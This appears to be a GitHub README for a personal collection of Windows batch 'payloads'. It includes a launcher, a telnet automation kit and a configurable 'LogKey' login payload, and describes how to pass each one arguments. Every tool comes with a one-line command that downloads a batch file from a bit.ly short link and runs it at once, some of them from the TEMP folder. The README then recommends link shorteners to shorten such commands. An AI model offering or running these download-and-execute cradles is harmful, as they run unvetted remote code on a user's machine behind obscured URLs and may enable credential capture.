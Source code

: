 # Payloads
A collection of my custom safe (...for now hehe) payloads for Windows.<br>
Some payloads are for personal or educational use only and might not deliver the results you wanted.



## Batchfiles
Here are the individual batchfiles and how to use them.
> **Warning** <br>
> It is required to write the script into a file with different name **aside from r.bat** since r.bat is the default name that PLs.bat uses to name a payload it downloaded. If you want to use r.bat as the name of your manually downloaded payload, you may fork the repository and change the configuration variables inside PLs.bat.<br>
> For scripts that include `cd %temp% &` in the command, you may change **%temp%** to a different folder of your choice. Be sure to select a directory and make sure that the directory is accessible to avoid errors when running the script.



### PLs.bat
[**PLs**](https://github.com/Jed556/Payloads/blob/main/PLs.bat) is the boss. This is the main launcher and download manager for all payloads.<br>

#### Download and Run PLs.bat
You may add additional arguments to the end of the command. Please refer to the **Arguments** section for more information.
```Batch
cmd /c curl -Lo pls.bat https://bit.ly/PLs-bat & pls
```

#### Arguments
Without arguments, or with missing arguments, the script will prompt you for the payload to run and the arguments to pass to it. The following table provides examples of how to run the script with different arguments:
|Index|Example|Description|
|:---:|:-----:|:--------- |
|1|**pls 1**|Specifies the **index** of the payload to run (default: none).|
|2|**pls 2 1**|Enables (**1**) or disables (**0**) debug mode (default: 0). This option will be passed to the specified payload.|
|*|**pls 3 0 2**|Arguments starting from index 3 are passed to the specified payload. Check the argument list for the specific payload you want to run, and add 1 to the indexes to understand the indexing better.|



### TelKit
[**Telkit**](https://github.com/Jed556/Payloads/blob/main/Telkit/telkit.bat) is a custom payload for telnet run automations. <br>

#### Download and Run TelKit
You may add additional arguments to the end of the command. Please refer to the **Arguments** section for more information.
```Batch
cmd /c cd %temp% & curl -Lo tk.bat https://bit.ly/PLs-tk & tk
```

#### Arguments
When arguments are missing or not provided, the script will prompt you for the telnet service to connect to. The following table provides examples of how to run the script with different arguments
|Index|Example|Description|
|:---:|:-----:|:--------- |
|1|**tk 0**|Enable (**1**) or disable (**0**) debug mode (default:0)|
|2|**tk 1 1**|Specifies the index of the telnet service to connect to (default: none).|



### LogKey
[**LogKey**](https://github.com/Jed556/Payloads/blob/main/Logkey/logkey.bat) is a custom payload for id login. <br>

**Download and Run LogKey**
You may add additional arguments to the end of the command. Please refer to the **Arguments** section for more information.
```Batch
cmd /c curl -Lo lk.bat https://bit.ly/PLs-lk & lk
```

#### Arguments
This script currently only has one argument, which enables or disables debug mode. However, you can configure the script's variables to specify your own URL and data file name and path. In the future, additional arguments may be added, such as a custom URL or the ability to input data as a string.
|Index|Example|Description|
|:---:|:-----:|:--------- |
|1|**lk 1**|Enable (**1**) or disable (**0**) debug mode (default:0)|



> **Note** <br>
> You may add `cd %temp% &` between `cmd /c` and `curl` for the files without a specific **cd** command to download and run inside Windows **%TEMP%** (temporary) folder.<br>
> You may change the file name *(ex. ***pls.bat***)* to a different name of your choice. Be sure to change the name of the file in the command *(& ***pls***)* as well.<br>
> You can adjust the individual configuration variables inside each script to your liking. Be sure to enter the correct values for the variables to avoid errors when running the script.



## Shortcuts
You may use link shorteners to shorten the commands. Here are some great link shorteners that you may use:<br>
- **Bitly**: [bitly.com](https://bitly.com/)<br>
- **Tinyurl**: [tinyurl.com](https://tinyurl.com/)<br>
- **Rebrandly**: [rebrand.ly](https://rebrand.ly/)<br>
- **Is.gd**: [is.gd](https://is.gd/)<br>
> I recommend using [**Bitly**](https://bitly.com/) or [**Tinyurl**](https://tinyurl.com/) since they are the only ones that I have tested so far. <br>
